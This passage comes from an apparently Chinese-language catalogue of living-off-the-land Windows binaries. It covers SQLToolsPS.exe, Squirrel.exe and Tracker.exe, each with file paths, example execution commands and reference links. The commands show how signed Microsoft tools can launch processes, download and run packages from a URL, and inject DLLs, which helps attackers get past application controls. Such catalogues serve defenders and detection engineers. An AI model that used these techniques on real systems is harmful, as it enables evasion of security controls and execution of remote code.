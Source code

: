 Microsoft SQL附带的用于加载SQL Server cmdlts的工具。 替代sqlps.exe。 SQL Server 2016+中sqlps.exe的后继者。


文件路径:
```
C:\Program files (x86)\Microsoft SQL Server\130\Tools\Binn\sqlps.exe
```
- 执行方式：
```
SQLToolsPS.exe -noprofile -command Start-Process calc.exe
```
- 参考资料：
```
https://twitter.com/pabraeken/status/993298228840992768
https://docs.microsoft.com/en-us/sql/powershell/sql-server-powershell?view=sql-server-2017
```
## Squirrel.exe
- 使用说明：

Microsoft Teams安装的一部分，执行squirrel软件包。 

文件路径:
```

%localappdata%\Microsoft\Teams\current\Squirrel.exe
```
- 执行方式：
```
squirrel.exe --download [url to package]
squirrel.exe --update [url to package]
squirrel.exe --updateRoolback=[url to package]
```
- 参考资料：
```
https://www.youtube.com/watch?v=rOP3hnkj7ls
https://twitter.com/reegun21/status/1144182772623269889
http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
```
## Tracker.exe
- 使用说明：
Visual studio的一部分。需要1028子文件夹中的TrackerUI.dll，可以开启一个进程并注入dll， 当然也可以直接运行exe文件。

- 执行方式：
```
Tracker.exe /c "C:\Windows\System32\calc.exe"
Tracker.exe /d .\calc.dll /c C:\Windows\write.exe
```
- 参考资料：
```
https://twitter.com/subTee/status/793151392185589760
https://attack.mitre.org/wiki/Execution
```
## Update.exe
- 使用说明：
